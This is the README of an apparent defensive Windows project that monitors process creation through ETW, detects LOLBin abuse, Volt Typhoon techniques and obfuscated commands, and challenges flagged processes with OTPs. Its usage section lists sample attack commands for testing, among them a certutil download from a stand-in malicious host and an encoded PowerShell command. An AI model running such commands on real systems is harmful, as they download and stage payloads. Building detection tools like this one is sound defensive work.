

# Usermode Application LOLBin Interceptor

## Overview
This project is a real-time security system for Windows that monitors process creation events, detects suspicious or malicious activity (such as LOLBin abuse, Volt Typhoon TTPs, and obfuscated commands), and enforces user or administrator validation via OTPs. It combines C++ (for ETW monitoring and process control) and Python (for advanced pattern-based detection).

---

## Architecture

### Main Components
- **C++ ETW Monitor (`usermodeapplicationlol.cpp`)**: Monitors process creation, checks for suspicious activity, and enforces OTP validation or process termination.
- **Python Analyzer (`analyze.py` + `detection/`)**: Analyzes process details for known malicious patterns, obfuscation, and advanced threat behaviors.
- **OTP Verification (`otpverify.exe`)**: Validates user/admin OTPs for process override.
- **Logging**: All actions and events are logged for auditing.

### Process & Dataflow Diagram


---

## Features
- **Real-time process monitoring** using ETW.
- **LOLBins detection** (hardcoded list and pattern-based).
- **Volt Typhoon TTP detection** (pattern-based).
- **Obfuscation detection** (flags any obfuscated command as malicious).
- **OTP challenge** for suspicious/malicious processes.
- **Admin override**: Two distinct OTPs required for admin to allow a malicious process.
- **Comprehensive logging** for all events and actions.

---

## Setup & Build

### Prerequisites
- Windows 10/11 (Administrator privileges required)
- Visual Studio (for building C++ projects)
- Python 3.x (in PATH)

### Build Steps
1. Open `usermodeapplicationlol.sln` in Visual Studio.
2. Build both `usermodeapplicationlol` and `otpverify` projects.
3. Ensure `usermodeapplicationlol.exe` and `otpverify.exe` are in the same directory (or in PATH).
4. Ensure the following Python files are present:
    - `analyze.py`
    - `detection/lolbin_pattern_detector.py`
    - `detection/volt_typhoon_detector.py`
    - `lolbin_detector.py`

---

## Usage

### 1. Start the Monitor
Run as Administrator:
```sh
usermodeapplicationlol.exe
```

### 2. Generate Test Events
Open another terminal and run commands such as:
- `cmd.exe /c whoami`
- `powershell.exe -encodedcommand SQBtAG...`
- `certutil.exe -urlcache -split -f http://malicious.site file.exe`
- `notepad.exe` (should not be flagged)

### 3. Observe
- Suspicious/malicious processes are suspended and prompt for OTP.
- Admin override requires two distinct OTPs.
- All actions are logged in `log_all.txt`, `log_otp_correct_malicious.txt`, and `log_otp_incorrect.txt`.

---

## Testing
- Test with known LOLBins and obfuscated commands.
- Test benign processes to ensure they are not challenged.
- Review log files for detection and enforcement actions.

---

## Extending Detection
- Add new patterns to `lolbin_detector.py` and `volt_typhoon_detector.py` for emerging threats.
- Enhance obfuscation detection in `analyze.py` as needed.

---

## Security Notes
- Any obfuscated command is treated as malicious by default.
- Only administrators can override malicious verdicts, and only with two distinct OTPs.
- All process actions are logged for audit and review.

---

## ETW Trace Buffer Limitation

This system relies on ETW (Event Tracing for Windows) to monitor process creation events in real time. **If the ETW trace buffer becomes full (due to high event volume or slow processing), some events may be lost.** This can result in missed detections and enforcement actions.

### Impact
- Malicious or suspicious processes may not be detected if their creation events are dropped.
- The system may not be able to enforce OTP challenges or process termination for missed events.

### Mitigation Strategies
- **Increase ETW buffer size and count:** Configure larger and more buffers in the code to reduce the chance of overflow.
- **Optimize event processing:** Make the ETW callback as fast as possible; offload heavy work to worker threads.
- **Monitor for lost events:** Subscribe to ETW lost event notifications and log warnings if events are dropped.
- **Filter unnecessary events:** Only monitor the providers and event types you need.

For high-assurance environments, consider a kernel-mode driver for process monitoring, which does not suffer from ETW buffer overflow issues.

---

## License
This project is for educational and research purposes. Use responsibly. 